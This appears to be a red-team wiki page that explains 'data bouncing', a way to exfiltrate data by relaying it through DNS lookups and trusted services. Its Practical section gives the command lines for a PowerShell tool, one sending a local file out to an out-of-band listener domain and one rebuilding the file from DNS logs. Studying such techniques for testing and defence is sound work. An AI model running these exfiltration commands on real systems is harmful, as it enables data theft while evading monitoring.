 # Data Bouncing - External Data Exfiltration

## Introduction

**Data bouncing** is a sophisticated **data exfiltration technique** where an attacker **routes stolen data through multiple intermediary systems** before reaching the final destination. This method makes it difficult to trace the data's origin, detect unauthorized transfers, and prevent forensic investigations.

## How It Works

* **Compromise an Internal System**
  * The attacker gains access to a target system via phishing, malware, or exploiting a vulnerability.
* **Identify External Intermediary Systems (Bouncing Points)**
  * These are typically compromised servers, cloud services, or even **legitimate third-party services** (like file-sharing platforms, webhooks, or messaging APIs).
  * Common bouncing points:
    * **Compromised cloud storage (Google Drive, Dropbox, AWS S3)**
    * **Public forums, blogs, or Pastebin**
    * **Compromised IoT devices or routers**
    * **Decentralized networks (Tor, I2P, blockchain transactions)**
* **Exfiltrate Data Through Multiple Hops**
  * Instead of sending data directly to the attacker's machine, it is **first stored or relayed through one or more bouncing points**.
  * Example techniques:
    * Encrypt and upload the data to **Google Drive**, then download it from a different location.
    * Encode data in **DNS queries or HTTP requests** routed via a proxy.
    * Use **social media posts, QR codes, or image steganography** to hide data.
* **Retrieve Data Without Raising Alarms**
  * The attacker retrieves the data from the bouncing point **at a later time**, making it difficult to detect real-time exfiltration.

## Why Attackers Use This?

* **Avoid Detection:**
  * Direct data transfers to suspicious IPs trigger security alerts.
  * Bouncing makes it look like normal traffic.
* **Bypass Security Controls:**
  * Firewalls and DLP (Data Loss Prevention) tools may allow uploads to trusted cloud services.
* **Anonymity & Attribution Confusion:**
  * Investigators may track the exfiltrated data only to an **intermediate system**, not the attacker's true identity.



***

## Practical

### Tools

* [https://github.com/Unit-259/DataBouncing](https://github.com/Unit-259/DataBouncing)

{% hint style="success" %}
Data Bouncing is a technique for transmitting data between two endpoints using DNS lookups and HTTP header manipulation. This PowerShell version packs all the core functionality of data bouncing into a simple tool for reconnaissance, data exfiltration, and file reassembly. It's built on the original, off-the-wall ideas of our hacker pals, John and Dave. Their wild, creative approach to data bouncing sparked everything we've built, and we're forever grateful. If you're curious, check out their work over at [thecontractor.io](https://thecontractor.io/data-bouncing/). Huge props to them for always pushing the envelope and keeping the hacker spirit alive!
{% endhint %}

The project comes with two main scripts:

* **`nightCrawler.ps1`**: Handles data exfiltration.
* **`deadPool.ps1`**: Reassembles the exfiltrated data from DNS logs.

### Data Exfiltration - nightCrawler.ps1

{% hint style="success" %}
Provide the URLs for your OOB listener as a comma-separated list (e.g., adobe.com, github.com).

Specify the file path of the data you wish to exfiltrate.
{% endhint %}

```
Invoke-NightCrawler -Identifier "testid" -Domain "cv8erb8gdmbc73c0ns00o1dra4c8ibd4r.oast.fun" -Urls "adobe.com","github.com" -FilePath "C:\Path\to\file.txt" -EncryptionEnabled -EncryptionKey "YourSecretKey"
```

### Data Reconstruction - deadPool.ps1

{% hint style="success" %}
Run this script on your own computer where the DNS logs are stored. It extracts the hex-encoded chunks (with sequence numbers), sorts them, decodes them, and reconstructs the original file. Example command:
{% endhint %}

```
Invoke-DeadPool -LogFile "C:\Path\to\logs.txt" -Identifier "testid" -EncryptionEnabled -EncryptionKey "YourSecretKey" -OutputFile "C:\Path\to\ReconstructedFile.txt"
```

***

## REFERENCES

* [https://www.youtube.com/watch?v=oMmB7mi7KRk\&list=WL\&index=1\&ab\_channel=TheWeeklyPurpleTeam](https://www.youtube.com/watch?v=oMmB7mi7KRk\&list=WL\&index=1\&ab_channel=TheWeeklyPurpleTeam)
* [https://github.com/projectdiscovery/interactsh](https://github.com/projectdiscovery/interactsh)
* [https://github.com/Unit-259/DataBouncing](https://github.com/Unit-259/DataBouncing)

